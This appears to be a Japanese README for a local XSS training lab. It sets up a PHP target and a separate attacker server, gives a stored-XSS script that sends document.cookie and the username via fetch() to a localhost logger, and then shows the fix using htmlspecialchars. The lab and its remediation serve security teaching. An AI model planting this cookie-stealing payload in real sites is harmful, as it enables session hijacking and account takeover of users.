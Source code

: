 # XSS

# Environment

Debian 11

# Get Started

1つのターミナル上で対象サーバーを建てる

```bash
bash init.sh
php -S localhost:3000 -t main
```

別のターミナル上で攻撃用サーバーを建てる

```bash
php -S localhost:3001 -t attack
```


# Exploit

1. user01でログイン

ブラウザでlocalhost:3000/login.phpにアクセスする

user01としてログインする (`user01` / `user01`)

2. コードを挿入

次のようなコードを投稿する

```javascript
Hello
<script>
var url = 'http://localhost:3001/logger.php';
var user = encodeURIComponent(document.querySelector('#username').innerText);
var cookie = encodeURIComponent(document.cookie);
fetch(`${url}?user=${user}&cookie=${cookie}`, { mode: "no-cors" })
</script>
```

3. 疎通確認
localhost:3000/index.php に再度アクセスすると localhost:3001 側のサーバー にcookie情報のログが出力されることを確認する

4. user02でログインする (`user02` / `user02`)

5. ログ確認
localhost:3001 側のサーバー にcookie情報のログが出力されることを確認する

cookieが手に入ったのでuser01になりすましてログインできる

# Fix

出力時に適切にエスケープする

修正前)

```php
<p><?= $post['message'] ?> - by `<?= $username ?>`</p>
```

修正後)

```php
<p><?= htmlspecialchars($post['message']) ?> - by `<?= htmlspecialchars($username) ?>`</p>
```

